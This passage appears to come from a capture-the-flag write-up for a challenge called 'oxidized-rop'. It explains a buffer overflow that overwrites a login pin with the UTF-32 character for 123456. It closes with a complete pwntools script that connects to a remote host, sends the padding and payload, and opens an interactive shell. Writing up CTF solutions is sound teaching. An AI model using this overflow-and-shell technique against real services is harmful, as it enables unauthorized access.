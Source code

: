 ```
--------------------------------------------------------------------------
Thanks for your statement! We will try to resolve the issues ASAP!
Please now exit the program.
--------------------------------------------------------------------------
The value of login pin is 0x000041 and it is located at 0x7fff7cd27e2c
```

So what we need to do is find how many characters we need to write just before we override the pin and then write the value of 123456 (1e240) to the pin field.

I noticed that 100 characters don't overwrite the pin and 120 does. So if we write A * 100 and then send 20 * the character with hex value 1e240 we should have the correct pin and receive a shell. 

With some help of chatgpt I got this python function. It gives the character that belongs to an int value such as 123456 (the character is: 𞉀).  
```
def int_to_utf32(value):
    hex_value = hex(value)
    utf32_value = int(hex_value, 16)
    utf32_character = chr(utf32_value)
    return utf32_character
```

Now all we need is to send the character at the right place (sending the character 120 times would also work). 

I have written this small program to send the character and give us the interactive shell. 

```
from pwn import *


def int_to_utf32(value):
    hex_value = hex(value)
    utf32_value = int(hex_value, 16)
    utf32_character = chr(utf32_value)
    return utf32_character


#r = process('./oxidized-rop')
r = remote('83.136.253.251', 59131)
print(r.recvuntil(b"Selection: ").decode('ascii'))
r.sendline(b'1')

print(r.recvuntil(b"Statement (max 200 characters): ").decode('ascii'))
overflow = 'A'*100
exploit = int_to_utf32(123456) * 20
r.sendline(overflow + exploit)
print(r.recvuntil(b"Selection: ").decode('ascii'))
r.sendline(b'2')

r.interactive()
```
